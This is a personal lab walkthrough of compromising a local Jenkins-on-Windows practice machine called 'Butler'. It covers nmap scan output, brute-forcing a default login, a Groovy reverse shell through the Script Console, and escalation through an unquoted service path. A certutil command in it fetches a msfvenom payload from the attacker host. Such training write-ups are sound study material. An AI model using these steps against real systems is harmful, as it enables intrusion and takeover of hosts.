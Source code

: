 # Target Details

| IP            | Hostname/Box | Operating System /Platform |
| ------------- | ------------ | ---------------- |
| 192.168.1.109 | Butler          | Jenkins            |


# Box Outline
The purpose of this box was to exploit Jenkins, an online automation server/platform. After doing initial recon, port 8080 gave us the login page for the Jenkins platform. I brute forced the credentials using BurpSuite and gained access to the user "jenkins". "Script Console" is a plugin that Jenkins provides. It's functionality allows an authenticated user to upload/run groovy scripts that would be executed on the server. This feature was exploited and gave me low level privileges in the system via a reverse shell. I then used WinPeas to provide a complete picture of what the platform might be vulnerable against. One of the vulnerabilities was "Unquoted Service Path". This was exploited by uploading a malicious executable in the same folder as the targeted service. Once this was executed as the service, the malicious executable gave us a shell with system level privileges.
NOTE: This box, has multiple vulnerabilities. This was just one method of achieving root/system access

# Scanning and Enumeration
Ran `nmap -T4 -p- -A 192.168.109`
```bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -T4 -p- -A 192.168.1.109
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 16:19 EDT
Nmap scan report for 192.168.1.109
Host is up (0.00092s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:12:FF:7A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h00m11s
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08002712ff7a (Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-07-05T23:22:59
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.92 ms 192.168.1.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.04 seconds
```

Exploring port 8080
![](port%208080%20-%20Jenkins%20login%20page.png)
**Background information**
	Jenkins is a self-contained, open source automation server which can be used to automate all sorts of tasks related to building, testing, and delivering or deploying software.
Google search jenkins exploits. Most of them elude to the fact that I'd need to have user access in order to perform a RCE.
Brute Force credentials
	In this walkthrough we used BurpSuite (Intruder). Keith provided a simple list of creds where username: jenkins and password: jenkins gave us access to the Jenkins dashboard
	*todo*: Brute force another way. Maybe with wordlists

![](jenkins%20dashboard.png)
Exploring the dashboard, Jenkins has a suite of built in tools. One of them is called "Script Console" that allows groovy scripts to be run and executed on the server.
![](Jenkins%20Script%20Console%20tool.png)
# Exploitation
Google search for groovy reverse shell script
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
![](TCM/5.%20Butler%20-%20completed/attachments/Reverse%20shell.png)
I set up the netcat listener on my attack box, and ran the script. A reverse shell was gained and low level priviliges were achieved.
![](TCM/5.%20Butler%20-%20completed/attachments/Netcat%20listener.png)

System Information
![](jenkins%20system%20info.png)
# Privilege Escalation
At this point, I'm in the system with low level privileges. In order to escalate the privileges I used a tool called winpeas. "Windows Privilege Escalation Awesome Scripts"
![](butler%20folders.png)

![](winpeas%20upload.png)
Once the winpeas was uploaded and ran. There was a slew of possible attack vectors. For the purpose of this box, we will focus on the job "WiseBootAssistant".  
![](Wise%20Boot%20Assistant.png)

Vulnerability: #Unquoted-service-path
	When a service is created whose executable path contains spaces and isn't enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which **allows a user to gain SYSTEM privileges** (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is)
One method of exploiting this is by replacing this service with a malicious executable. I created  a payload using msfvenom and named it Wise.exe. And also established another netcat listener
![](Wise.exe%20malicious%20executable%20for%20reverse%20shell.png)
1. Navigate to where the service is located/executed from `c:\Program Files (x86)\Wise` 
2. Executed the certutil.exe and transfer the malicious executable from the attack box to the target `certutil.exe -urlcache -f http://192.168.1.100/Wise.exe Wise.exe`. 
3. Stop the current WiseBootAssistant service, then restart it.
![](sc%20query%20WiseBootAssistant%20service.png)
Once the service started it executed the malicious executable and created a shell
![](2nd%20netcat%20listener%20with%20reverse%20shell%20with%20escalated%20privs.png)
# Post Exploitation
N/A
